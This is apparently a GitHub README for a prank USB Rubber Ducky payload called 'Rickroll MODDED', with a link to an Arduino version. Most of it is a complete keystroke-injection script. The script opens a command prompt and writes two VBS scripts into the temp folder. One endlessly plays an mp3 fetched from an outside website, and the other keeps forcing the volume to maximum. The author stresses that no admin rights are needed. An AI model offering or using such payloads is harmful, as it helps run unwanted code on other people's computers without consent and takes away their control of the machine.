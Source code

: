 # Rickroll MODDED
This is a modification from the real "<a href="https://gitlab.com/WarKitteh/arduino-hid-rickroll">Rickroll</a>". It does the same, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A vbs resets it to the maximum level. Oh, and it doesn't need admin permissions.

# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>

